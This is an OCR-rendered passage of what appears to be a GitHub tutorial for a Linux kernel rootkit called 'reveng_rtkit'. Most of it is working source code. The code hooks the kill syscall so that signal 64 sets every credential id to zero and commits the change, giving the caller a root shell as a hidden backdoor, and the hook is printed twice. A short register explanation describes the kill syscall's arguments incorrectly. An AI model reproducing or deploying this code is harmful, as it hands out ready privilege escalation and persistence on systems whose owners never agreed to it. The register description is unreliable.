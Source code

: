                     // Updating ids to 0 i.e. root
                    root->uid.val = root->gid.val = 0;
                    root->euid.val = root->egid.val = 0;
                    root->suid.val = root->sgid.val = 0;
                    root->fsuid.val = root->fsgid.val = 0;

                    // Setting the updated value to cred structure
                    commit_creds(root);
                  }


                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;

                    switch (sig)
                    {
                      case GET_ROOT:
                            printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                            /*
                                  In someway system() function alike kernel function present in linux kernel programming
                                  is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                                  case) was alloted a root shell, but bash/sh shell did the job.
                            */
                            set_root();
                            break;
                      default:
                            return orig_kill(pt_regs);
                    }
                    return 0;
                  }
                  ```
                  If you visit [<ins>Linux Syscall Reference</ins>](https://syscalls64.paolostivanin.com/), and search for _sys_kill_ you can see that it depends on 3 registers, **rax** (which contains the syscall id), **rdi** (which contians the file descriptor) and **rsi** (which is the location, where the passed arguments is to be stored). 
                  
                  So here, we are only concerned about **rsi** register as we are interested in the arguments that are passed. We can see that we indeed need `int sig` to be placed in ***si*** register.

                  So, that means:
                  ```c
                  #define GET_ROOT 64

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;

                    switch (sig)
                    {
                      case GET_ROOT:
                            printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                            /*
                                  In someway system() function alike kernel function present in linux kernel programming
                                  is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                                  case) was alloted a root shell, but bash/sh shell did the job.
                            */
                            set_root();
                            break;
                      default:
                            return orig_kill(pt_regs);
                    }
                    return 0;
                  }
                  ```